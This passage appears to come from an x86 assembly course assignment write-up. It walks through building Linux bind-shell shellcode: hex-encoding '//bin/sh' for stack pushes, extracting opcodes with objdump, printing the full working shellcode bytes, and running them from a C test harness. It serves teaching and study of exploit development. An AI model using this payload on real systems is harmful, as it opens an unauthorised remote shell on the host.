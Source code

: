 ### Notes on reversing "//bin/sh" string
```bash
[sengen@manjaro-x86 assignment1]$ python
Python 3.6.2 (default, Jul 20 2017, 15:08:48) 
[GCC 7.1.1 20170630] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import binascii
>>> code=b'//bin/sh'
>>> binascii.hexlify(code[::-1])
b'68732f6e69622f2f'
>>>
```

**Then you can push it to the stack in 4 byte segments**
```
push 0x68732f6e
push 0x69622f2f
```

**Source Code**<br/>
You can grab the source code for both the C and assembly programs from the following location:<br/>
[https://github.com/tdmathison/SLAE32/tree/master/assignment1](https://github.com/tdmathison/SLAE32/tree/master/assignment1)

**We can extract the bytes with objdump**
```
[sengen@manjaro-x86 assignment1]$ objdump -d ./bind_shell_asm|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x5b\x43\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x57\x89\xe1\xcd\x80\x31\xc9\x89\xc3\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80"
```

**Add it to a test C program**
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x5b\x43\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x57\x89\xe1\xcd\x80\x31\xc9\x89\xc3\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
```
